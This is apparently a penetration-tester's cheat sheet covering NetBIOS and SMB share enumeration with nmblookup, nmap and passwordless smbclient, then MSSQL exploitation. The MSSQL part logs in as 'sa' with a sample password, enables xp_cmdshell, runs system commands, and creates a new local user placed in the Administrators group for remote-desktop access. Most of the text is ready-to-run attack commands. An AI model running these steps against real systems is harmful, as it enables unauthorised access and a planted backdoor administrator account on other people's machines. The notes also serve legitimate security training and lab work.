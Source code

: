 ## Lookup Netbios Names

>nmblookup -A 10.11.1.31

### Example Output:

```
	DAVID           <00> -         B <ACTIVE> 
	CORP            <00> - <GROUP> B <ACTIVE> 
	DAVID           <1f> -         B <ACTIVE> 
	DAVID           <03> -         B <ACTIVE> 
	DAVID           <20> -         B <ACTIVE> 
	THINC           <1e> - <GROUP> B <ACTIVE> 
	CORP            <1d> -         B <ACTIVE> 
	..__MSBROWSE__. <01> - <GROUP> B <ACTIVE> 
```

## Samba Enumeration with Nmap

```nmap -sV --script=smb-enum-shares -p445 $ip```

## Connect to Share without Password


This is an FTP like client to access SMB and CIFS resources on servers
-L specifies the Netbios name
-I is destination IP
-N is no password

>  smbclient -L \\COMPUTERNAME -I 10.0.0.1 -N

### Example Output:
```
OS=[Windows Server 2003 3790 Service Pack 1] Server=[Windows Server 2003 5.2]

	Sharename       Type      Comment
	---------       ----      -------
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	ADMIN$          Disk      Remote Admin
	public_access         Disk      
OS=[Windows Server 2003 3790 Service Pack 1] Server=[Windows Server 2003 5.2]

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	
```

## May need to escape characters

>smbclient \\\\10.129.1.12\\WorkShares

## Connect to specific directory

>smbclient //DAVID/public_access -I 10.11.1.31 -N

# Further Exploitation with Username and Password for MSSQL Server

## Ensure you have relevant tools installed
>apt-get install sqsh freetds-bin freetds-common freetds-dev

## Show Databases
> sqsh -S 10.0.0.1 -U sa -P fdasjkl3 -C "SELECT name FROM master.dbo.sysdatabases"

## Login to sql command line
>sqsh -S 10.0.0.1 -U sa -P fdasjkl3

## If xp_cmdshell is not turned on then you have to enable it. This requires "advanced options" to be on:
```
exec sp_configure ‘show advanced options’, 1
go
reconfigure
go
```

# Output directory of C:\
> xp_cmdshell 'dir C:\'


##Add a new user and put them into Administrators Group
```
xp_cmdshell 'net user bob password /add'
go
xp_cmdshell 'net localgroup Administrators bob /add'
go
```


Now login via remote desktop if you have access
